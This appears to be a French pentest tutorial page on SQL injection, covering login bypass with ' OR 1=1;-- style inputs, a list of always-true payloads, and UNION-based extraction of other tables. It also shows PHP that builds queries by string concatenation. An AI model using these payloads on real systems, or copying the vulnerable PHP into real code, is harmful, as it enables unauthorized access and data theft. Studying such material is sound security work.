 # Injection de commandes SQL

## Connexion sans identifiant et sans mot de passe

On tape dans l'identifiant : 

```sql
' OR 1=1 ;--
```

Et on n'oublie pas de mettre un mot de passe aléatoire, au cas ou le système vérifie si un mot de passe est rentré.

{% hint style="warning" %}
Si une erreur est affiché comme 'SQL error', alors il y a une faille dans la gestion du formulaire. Dans cas on va pouvoir l'exploiter pour en tirer d'autres infos. Si aucune sécurité n'est mise en place, la connexion se fera sur le premier utilisateur de la base de données.
{% endhint %}

## Connexion avec seulement l'identifiant

#### 1. Par le nom d'utilisateur

Dans un premier temps, on peut s'attaquer au _**nom d'utilisateur**_. Prenons par exemple, une requête de connexion au serveur de ce type :

```sql
select * from user_table
where username = 'anto'
and password = 'mystrongpassword';
```

En supposant que le mot de passe ne soit pas haché, la requête PHP ressemblerait à ceci :

```php
// Connexion à la database
$db_query = "select * from user_table where
username = '".$user."'
AND password = '".$password."';";
// Execution de la requête
```

Ainsi, en entrant dans la section du nom d'utilisateur « **anto’;--** » la requête SQL devient :

```sql
select * from user_table where
username = 'anto';-- and password = ''
```

Or, le double tiret permet de commenter du code en SQL, ce qui revient donc à contourner le mot de passe, et à pouvoir se connecter en ayant uniquement besoin du nom d'utilisateur.



#### 2. Par le mot de passe, par attaque booléenne 

Une deuxième possibilité à tester, est l'injection SQL booléenne. Par exemple, en ayant une requête SQL de ce type :

```sql
select * from user_table where
username = 'anto' and
password = 'password';
```

On peut très bien contourner le mot de passe, en entrant dans la section du mot de passe la commande « **'or 1=1;--** » qui transforme la requête comme ceci :

```sql
select * from user_table where
username = 'anto' and
password = '' or 1=1;--;
```

Et qui de ce fait, rend totalement inutile la condition password='anto' vu que la condition 1=1 sera toujours vraie.

Il existe une infinité de conditions triviales, par exemple :

```sql
'='
'OR 1=1
'OR a=a
'OR'
'OR''='
'OR"="
'OR'="
'OR '="
'OR "='
'OR ''='
'OR '=''
'OR "=''
'OR ''="
```



{% hint style="warning" %}
Malheureusement pour nous, ces genres de vulnérabilités sont extrêmement rares, mais valent le coup d'être essayés.
{% endhint %}

## Méthode UNION

Une fois une vulnérabilité trouvée, on peut l'exploiter.

Prenons le cas d'un script vulnérable de recherche d'article à partir d'un mot dans le titre, ce script affiche la liste des articles trouvés et des liens vers ceux-ci. Notre objectif est d'utiliser cette requête pour afficher le contenu d'autres tables.

```php
$sql="SELECT * FROM article WHERE title LIKE '%" . $title . "%'";
```

Problème, la structure de la table article nous est inconnue, nous ne connaissons pas ses différents champs; or pour réussir à afficher des informations d'autres tables, plusieurs challenges se posent à nous :

* Trouver le nombre et le type de chaque colonne retournée par la requête
* Trouver le nom d'une colonne et d'une table comportant des choses intéressantes \(Login, Password, etc.\)
* Utiliser une union pour récupérer les informations

Trier par numéro de colonne permet de tester si cette colonne existe. Si la requête retourne 5 colonnes ou plus, la requête suivante va fonctionner :

```sql
SELECT * FROM article WHERE title LIKE '%sql-injection%' ORDER BY 5--'
```

{% hint style="info" %}
Remarque,  '--' est utilisé par tous les SGBD pour les commentaires SQL.
{% endhint %}

Une fois identifié le nombre de colonnes, réalisons une première UNION :

```sql
SELECT * FROM article WHERE title LIKE '%sql-injection%' UNION SELECT 1,2,3,4,5--'
```

{% hint style="info" %}
Pour une base PostgreSQL, la colonne tablename de la table **pg\_tables** va permettre de récupérer le nom des tables, pour MSSQL, select name from **SysObjects**, pour MySQL, select table\_name from **information\_schema.tables .**
{% endhint %}



